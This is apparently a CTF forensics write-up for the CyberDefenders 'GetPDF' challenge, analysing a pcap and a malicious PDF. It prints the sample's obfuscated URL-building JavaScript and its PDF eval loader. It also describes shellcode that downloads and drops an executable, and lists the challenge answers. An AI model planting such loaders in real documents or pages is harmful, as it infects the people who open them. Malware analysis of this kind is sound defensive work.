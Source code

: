 ```yaml
---
layout: post
title: GetPDF Threat Hunting writeup
categories: [CTF, Forensics, Threat-Hunting]
tags: [CTF, Malware-Analysis, Incident-Response, Blue-team]
---
```

Point: 1200

<https://cyberdefenders.org/blueteam-ctf-challenges/progress/rootware/47/>

## Category

Forensics, Threat-Hunting, Malware-Analysis

## Solution

### How many URL path(s) are involved in this incident?

```text
http.request.method == GET
```

![urls](https://bn1304files.storage.live.com/y4mkLH7_rt_96G8rYCTiXp5xdftFR9aKa0jmaNJCRV-KXPXPbZEN2qYpnaucs1aR2Az3u3HqquOBmX4CdEBTKQ-iMbLXqtjTTSCi88sBu7ym7GQV8A-igmu7OjJia6RMa8rYA-mX-3tmdPxrTcSBtWBYSWBguyQLspBTB14C3Lzd3A7cOyq1xfJ9VoI-OCfDtK-?width=2872&height=334&cropmode=none)
There are altogether 6 unique URLs after analyzing the pcap file in wireshark.
Answer: 6

### What is the URL which contains the JS code?

![jsurl](https://bn1304files.storage.live.com/y4m6398aFoTRwwSQiQ5ad5wJIMAMNQ--_Dow8jMD-gXlreBH_DjyjK0FGXcnsPviTiYfOVm9vmXenbVFmMtIzoMgfOxeO1j9q1DnJnNmYDGyAx9IWIp1MYviOPSkNNQVJmP-D6XU-7bkSNiOpEDfSxpji2As9vRbXg1u_R0oCD_VTbcZUVDwsUue8_8Rd6w4okG?width=2872&height=1506&cropmode=none)

So the full URL path that contains the JS code is
<http://blog.honeynet.org.my/forensic_challenge/>

### What is the URL hidden in the JS code?

After extracting the JS code and using beautifier.io to decipher the JS code, we can see that the code is constructing a URL.

```javascript
var DepanNegw = window;
var DexeTelae = -44;
DexeTelae += 45;
XayeZebah = 'nedajemac';
var GaDemee = 'e5vfqaIVblI5'.replace(/[5fqIVbI5]/g, '');
ZavevTa = 'fazemezarawaseb';
var MezRai = parseInt;
var DayahDet = 'zafezed lacet cetexet jevecakemahamaha febenep cafa fezebefe yelaxa xejarer hejefaqazedeka kebeneh petaqe zevexej jenewabahegehar jabevame bayap def vasefezetevamer nefelaba sezaxewe qajeqeme wet reyeqer magemefele xelawece denew jafelev haweqa kel vatabaser mag vejefama xeca canapevezejev benaper gezazevaja zeyaxaf wehekeh jecalava set senajaj re kameken bazafakaqewate zaralek yecele kak s hexebeka heha jeyeteg sase wayefewa tey gawewem wefaravavepayeke xedevec gavayedegeqer casehes watenanesajet jelagal payevexebe pejasep heqefagabexemew deheler vejegeca hece rafenadamenaxe jaz fex hekases pazetepajamelew cerasej nevayezabevepeke pex gey dac g dezaleza kekeqebe peyemaf sevanededa cefagey defef cexaqehe sebex galahal zadaxaran lava falamedejegase set law mefe wa mex ces nam j xaxaped gexeqageb feqeled daseze tehadeh zeheteyera xanahef wepahena xarakel gadazecaq tabexape dareq seje lejegagaxavade haf jaz cewe me cag kem fed h legefaz taw keyacah wefereweverewaze rapecame kas fagavev facez yefeley lareke seperene gav lece gahepegesafeve dez gen yeje s waz qas xap c hademax mezezah qepawehe vad zejates pe cehajeg sabebaseqeseda sekesav nebeda cagareg kec fexewel bejewagedegeqene bajesade lav pasepad baraj xecavan vedepe veranake vej heva kejajemacajada wez saj vele x qaj vad fag y qetamefe jaxa kamatare net zeheweh jeme bale cexebedeleneye dab vev kekaxex jetecajek lejekabe qalef bevegeye caxeb beleteqe r hele saxafexazat baz dehakajegeqeneke met mefepexafecebera qwertyu iop asdfghj klzxcvbnmqwer tyuiopa sdfghjklzxcvbnmq hjklzxc vbnmqwer tyu iopasdfghjklzxc vbnmqwe rtyuiopas dfghjkl zxcvbnmqwertyuio pasdfgh jklzxcvbnmqwert yuiopas dfghjk lzxcvbnm qwertyuiop asdfghj klzxcvbnmqwerty uiopasd fghjkl zxcvbnmq werty uio pasdfghjklzxcvb nmqwert yuiopasdfghjklzx cvbnmqwe rty uiopasd fghjklzx uio pasdfghjklzxcvb nmqwert uiopasdfghjklz qwertyui opasdfghjk xcr vbnmqwertyuiopar sdfghjr klzxcvr bnmqwer rtyuiopasdfghjkr lzxcvbnr mqr wertyur iopasr dfghjkr lzxcvbnmqwertyr uiopasdr fghr jklzxcr vbnmqwertr yuiopar sdfr ghjklr zxcvbnmqwertyuir opasdfr ghjr klzxcvr bnmqwertr yuiopar sr dfghjkr lzxcvbnmqwerr dfghjkr lzxcvbnmqwerr tyuiopr asdfgr hjklzxr cvbnmqwertyuior pasdfgr hjklzxcr vbnmqwr ertyur met mefepexafecebera xanahef wepahena feqeled daseze tabexape dareq zexelede l cefagey defef hademax mezezah req batekeqaheteceh zateyene c zekeqay ratevecek veheleqe k dec tec xece jefexazeqayefes cama bapevexeladet keh lanawebasegecaja qefejev qepetekene dacegas relevaj fecasece ber veyayes ba kajebed savaketegemeqe wepecer lamege tere ratavacevejezax gey dasalaje gav yepakekehe'.split(' ');
var ZeJexn = '';
var SerayYafags = String;
var KesXanavn = -50;
KesXanavn += 66;
XadHef = 78;
var BeZao = 47;
BeZao += -47;
var FeceSabejo = -46;
FeceSabejo += 48;
GebJep = 92;
var SeWajec = 'ftr9wogmBwJCW5h6aixrPRCs1ZonjHjdjKueMkD'.replace(/[t9wgBwJW56ixPRs1ZnjHjjKuMkD]/g, '');
MaqTa = 5;
GaDemee = DepanNegw[GaDemee];
SeWajec = SerayYafags[SeWajec];
for (YajMedei = BeZao; YajMedei < DayahDet.length - 1; YajMedei += FeceSabejo) ZeJexn += SeWajec(MezRai((DayahDet[YajMedei + BeZao].length - 1).toString(KesXanavn) + (DayahDet[YajMedei + DexeTelae].length - 1).toString(KesXanavn), KesXanavn));
GaDemee(ZeJexn);
```

The code is run in chrome browser console and returned an error message saying that it is actually requesting a URL which is blocked by chrome due to the request being insecure
<http://blog.honeynet.org.my/forensic_challenge/getpdf.php>

### What is the MD5 hash of the PDF file contained in the packet?

1. Export the `fcexploit.pdf` file from the http requests within wireshark.
2. Hash the file using md5 command as below.

```bash
md5 fcexploit.pdf 
```

```shell
MD5 (fcexploit.pdf) = 659cf4c6baa87b082227540047538c2a
```

### How many object(s) are contained inside the PDF file?

```bash
wget https://raw.githubusercontent.com/mlodic/pdfid/main/pdfid/pdfid.py
python pdfid.py fcexploit.pdf
```

```shell
PDFiD 0.2.7 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   1
 /Colors > 2^24         0
```

There are 19 objects.

### How many filtering schemes are used for the object streams?

By user pdf-parser the pdf file's streams can be analyzed

```bash
pdf-parser fcexploit.pdf  
```

```shell
obj 4 0
 Type: /Action
 Referencing: 5 0 R

  <<
    /Type /Action
    /S /JavaScript
    /JS 5 0 R
  >>


obj 5 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 395
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>
```

In the output above object 4 which contains javascript code is referencing object 5 which filters the contents of object 4. From the `/Filter` we can see that there are 4 encoding functions.

### What is the number of the 'object stream' that might contain malicious JS code?

```javascript
var SSS = null;
var SS = "ev";
var $S = "";
$5 = "in";
app.doc.syncAnnotScan();
S$ = "ti";
if (app.plugIns.length != 0) {
    var $$ = 0;
    S$ += "tl";
    $5 += "fo";
    ____SSS = app.doc.getAnnots({nPage: 0});
    S$ += "e";
    $S = this.info.title;
}
var S5 = "";
if (app.plugIns.length > 3) {
    SS += "a";
    var arr = $S.split(/U_155bf62c9aU_7917ab39/);
    for (var $ = 1; $ < arr.length; $++) {
        S5 += String.fromCharCode("0x" + arr[$]);
    }
    SS += "l";
}
if (app.plugIns.length >= 2) {
    app[SS](S5);
}
```

The above stream contains malicious JS code.
Answer: 5

### Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order

Analyze the PDF file in PDFStreamDumper. Debug the JS script in object 5. The JS gets the content of the 10th object stream and removes the "U_155bf62c9aU_7917ab39" string from it.

Scan the resulted JS code from the previous step. The JS gets the content of the 9th object stream and removes the "X_17844743X_170987743" string from it, then gets the content of the 7th stream and removes the "89af50d" string, then concatenate the 2 JS code. The answer is 7,9

### The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine?

The JS code contains 4 different versions of the same shellcode.

Using scdbg to emulate any one of the shellcodes. You will find that the shellcode calls URLDownloadToFileA API. The answer is c:\WINDOWS\system32\a.exe

### The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop?

Using `pdf-parser -a fcexploit.pdf` command. You will get that the 11th object stream contains an Embedded object.

Analyze the PDF in PDFStreamDumper and check the 11th object stream in the PDF file. Extract the content of the object stream.

Use file utility to check the file type. The file is Zlib compressed. Use PDFStreamDumper -> Tools -> Zlib Decompress_file to get the actual content of the exploit

Decode the base64 string you will get the shellcode. Using scdbg to emulate the shellcode. The URL is <http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe>

### How many CVEs are included in the PDF file?

Answer: 5
The JS code extracted from the 7th and 9th streams contains 4 CVEs, and the 11th stream has the 5th one.
